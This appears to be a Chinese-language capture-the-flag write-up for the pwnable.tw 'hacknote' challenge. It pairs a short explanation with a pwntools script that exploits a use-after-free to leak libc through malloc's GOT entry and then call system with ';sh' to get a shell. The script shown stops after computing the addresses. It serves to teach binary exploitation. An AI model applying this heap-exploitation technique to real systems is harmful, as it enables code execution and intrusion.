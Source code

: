 写入print_note_addr和malloc函数的got，就可以泄露libc基址

然后再写入system函数地址和参数调用print_note就可以直接调用system，参数注意是本身`system_addr+参数`，可以通过'||'或';'对命令进行分割，识别`system_addr`为无效command之后再执行后续command，构造如下：

```
add(8, p32(system_addr) + ';sh\x00')
```

exp

```python
from pwn import *

context(arch="i386",os="linux",log_level="debug")
elf = context.binary = ELF('./hacknote')

#elf_libc = ELF('libc_32.so.6')
#io = remote('chall.pwnable.tw', 10102)

elf_libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
io = process('./hacknote')


print_addr = 0x0804862B

def add(size, content):
	io.recvuntil('Your choice :')
	io.send(str(1))
	io.recvuntil(':')
	io.send(str(size))
	io.recvuntil('Content :')
	io.send(content)

def delete(index):
    io.recvuntil('Your choice :')
    io.send(str(2))
    io.recvuntil('Index :')
    io.send(str(index))
 
def show(index):
    io.recvuntil('Your choice :')
    io.send(str(3))
    io.recvuntil('Index :')
    io.send(str(index))

add(16, 16*'a')

add(16, 16*'a')

delete(0)
delete(1)

add(8,p32(print_addr) + p32(elf.got['malloc']))

show(0)

malloc_got = u32(io.recvn(4)[:4])
log.success("malloc_got = " + hex(malloc_got))

libc_addr = malloc_got - elf_libc.symbols['malloc']

system_addr = libc_addr + elf_libc.symbols['system']

binsh_addr = libc_addr + 0X0015bb2b

```
